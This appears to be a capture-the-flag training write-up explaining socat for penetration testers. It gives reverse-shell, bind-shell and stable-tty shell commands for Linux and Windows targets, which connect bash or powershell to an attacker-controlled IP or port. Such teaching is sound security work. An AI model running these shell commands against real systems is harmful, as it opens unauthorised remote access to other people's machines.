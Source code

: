 
## Socat

Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

Once again, let's start with reverse shells.

*Reverse Shells*

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:

`socat TCP-L:<port> -`

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.

On Windows we would use this command to connect back:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

*Bind Shells*

On a Linux target we would use the following command:

`socat TCP-L:<PORT> EXEC:"bash -li"`

On a Windows target we would use this command for our listener:

`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

`socat TCP:<TARGET-IP>:<TARGET-PORT> -`

---

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is *significantly* more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

``socat TCP-L:<port> FILE:`tty`,raw,echo=0``

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.
